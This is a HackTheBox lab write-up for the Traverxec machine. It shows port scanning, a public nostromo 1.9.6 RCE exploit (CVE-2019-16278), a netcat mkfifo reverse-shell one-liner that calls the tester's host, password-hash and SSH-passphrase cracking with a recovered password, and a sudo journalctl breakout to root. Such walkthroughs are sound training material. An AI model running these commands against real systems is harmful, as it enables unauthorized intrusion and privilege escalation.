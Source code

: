# <center>Traverxec  - HackTheBox WriteUp</center>
![info_card](/images/traverxec/info_card.png)
## Enumeration & Information Gathering 

#### Scanning
>Nmap done: 1 IP address (0 hosts up) scanned in 2.14 seconds
root@kali:/var/www/html/pub# nmap -T4 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 10:39 EDT
Nmap scan report for 10.10.10.165
Host is up (0.054s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds
#### Service Enumeration

Home page:
![home_page](/images/traverxec/home_page.png)

By visiting pages on the site such as robots.txt, the veriosn of the HTTP App is revealed

![version](/images/traverxec/version.png)

Exploit search: nostromo 1.9.6 githhib
## Exploitation
https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

Let's try a executing a command:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'whoami'
```

Now on to Reverse Shell

#### Foothold

Set up a listener:
```
nc -lnvp 1234
```

Grab netcat reverse shell payload from Pentest Monkey a use as payload:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1234 >/tmp/f'
```

![foothold](/images/traverxec/foothold.png)

#### Post Exploitation Enumeration

Enumerating the file system of Nostromo

![post enum](/images/traverxec/post enum.png)

>www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
> david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Cracking the passowrd using hashcat

```
hashcat64.exe -m 500 $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/ c:\Users\admin\Downloads\rockyou.txt --force
```

![cracked](/images/traverxec/cracked.png)
david:Nowonly4me

Tried loging in via SSH with David User credentials but the password is not accepted.
checking SSHD config we see that password authentication is not allowed.We therefore need to find a private key. 

![sshd_config](/images/traverxec/sshd_config.png)

After much enumeration we go back to the nhttpd.conf file and remember that home dir is set to **/home** and **public_www**. The **serveradmin** is also set as **david@traverxec.htb** therefore we can probably navigate to david's home directory.

Turns out that we can, but we can't access files such as .bashrc or .ssh folder

![david_home](/images/traverxec/david_home.png)

We try navigating to the public_www folder on the shell and we are successful

![public_www](/images/traverxec/public_www.png)

We grab the gz file, extract it and ssh with the private key.

![ssh_gz](/images/traverxec/ssh_gz.png)

But we are blocked by a passphrase and the initial password **Nowonly4me** doesn't work here 

Cracking SSH passphrase with John
![crack_ssh](/images/traverxec/crack_ssh.png)


## Privilege Escalation

SSH using David's credentials we are able to Login.
Enumerating the home directory we find a shell script that runs a journalctl with sudo. 
![server_status](/images/traverxec/server_status.png)

running the command as is in the script works okay

This probably helps us realize that we have sudo NOPASSWORD set for running that command, we couldn't see that  using sudo -l becase we still don't know the user pass for David.

Next we visit GTFOBin https://gtfobins.github.io/gtfobins/journalctl/

We see we can break out of the binary much like the less/nano way
To do this we can either make our terminal window very small to force break output of journalctl OR we can just resize our terminal using `stty rows [number]`

Run the command and enter !/bin/sh

![root](/images/traverxec/root.png)

**Extra:** 

Top References:
1.    https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

2.    https://gtfobins.github.io/gtfobins/journalctl/

